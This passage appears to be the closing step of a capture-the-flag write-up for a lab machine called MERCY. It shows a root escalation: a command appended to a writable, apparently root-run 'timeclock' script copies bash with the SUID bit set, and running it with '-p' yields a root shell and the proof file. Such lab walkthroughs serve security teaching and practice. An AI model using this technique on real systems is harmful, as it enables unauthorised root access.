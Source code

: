 To get root we copy the bash binary to the /temp directory, we assign SUID permissions and redirect to the **timeclock** file, a few moments later we see that the bash binary is in the /temp directory and finally we execute it and we get root.

``` bash
fluffy@MERCY:~/.private/secrets$ echo 'cp /bin/bash /tmp/ && chmod 4777 /tmp/bash' >> timeclock
fluffy@MERCY:~/.private/secrets$ ls -la /tmp/bash
-rwsrwxrwx 1 root root 986672 May  2 16:48 /tmp/bash
fluffy@MERCY:~/.private/secrets$ /tmp/bash -p
bash-4.3# id
uid=1003(fluffy) gid=1003(fluffy) euid=0(root) groups=0(root),1003(fluffy)
bash-4.3# cat /root/proof.txt
Congratulations on rooting MERCY. :-)
```

